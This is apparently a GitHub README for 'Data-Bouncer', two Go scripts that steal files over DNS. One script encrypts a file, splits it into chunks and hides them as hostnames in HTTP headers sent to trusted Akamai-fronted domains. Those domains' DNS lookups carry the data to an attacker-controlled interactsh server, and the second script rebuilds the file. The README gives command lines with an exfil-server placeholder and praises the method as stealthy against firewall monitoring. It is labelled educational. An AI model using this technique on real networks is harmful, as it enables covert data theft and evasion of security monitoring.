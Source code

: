 # Data-Bouncer

I came across this Proof of Concept outlined here in https://thecontractor.io/data-bouncing.
I took their ideas and wrote two Go scripts designed for educational purposes. Please don't do anything illegal.

One script, bounce.go, encrypts and exfiltrates data via DNS by breaking it into chunks and sending it through HTTP headers. The second script, regenerate.go, reassembles and decrypts the data from the exfiltrated chunks. This method leverages trusted domains and HTTP headers to stealthily transmit data.

You will need an OOB dns server under your control for this to work and to collect the data. Here I'm using https://github.com/projectdiscovery/interactsh

From my testing this should work on most websites/domains that touches Akamai.

### Bounce.go
This script reads your chosen domain names from domains.txt. It first encrypts your chosen file using a password you provide, encodes the file into Base32 and finally splits it into 63 byte chunks and sends them as part of a domain name in an HTTP header.

Example:
```
go run bounce.go -f <filename> -p <password> -u <UUID> -e <exfil server url> -v
```
```
.\bounce.exe -f <filename> -p <password> -u <UUID> -e <exfil server url> -v
```

### Regenerate.go
This script reads the JSON export from your interactsh exfil server, processes and reassembles the chunks, doing the reverse by decoding, decrypting, and finally outputting the file.

Example:
```
go run regenerate.go -i <exported.json> -o <outputfile> -p <password> -u <UUID> -v
```
```
.\regenerate.exe -i <exported.json> -o <outputfile> -p <password> -u <UUID> -v
```

### Images

Example of bouncing a file:

![bouncer](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/87499151-3fef-4acc-b1d8-f67591ae21b9)

Example of regenerating the file:

![regen](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/6a2ac6d1-7d40-455b-b1ae-a83143078076)

Example from interactsh web client:

![interactsh](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/8c8f3ac9-ccf8-44be-9417-36bff4bea1c4)

Example of the forward traffic from FortiGate:

![FortiGate1](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/e4f26c0b-53ec-45db-a438-6fc340b87d1d)

- As you can see, it looks like the traffic is going to 23.x.x.x, a highly trusted domain.
- However, when the HTTP request is made, the webserver looks at our modified HTTP headers and performs a dns lookup of our exfil server from those headers.
- Then we're able to collect each of those dns lookups to our exfil server and reconstruct the data from these headers.
- This only works because many webservers processes hostnames in the headers, and we can relay small chunks of data in those very same headers between endpoints.
- Therefore, this makes it an extremely stealthy way of exfiltrating data albeit a slow one.
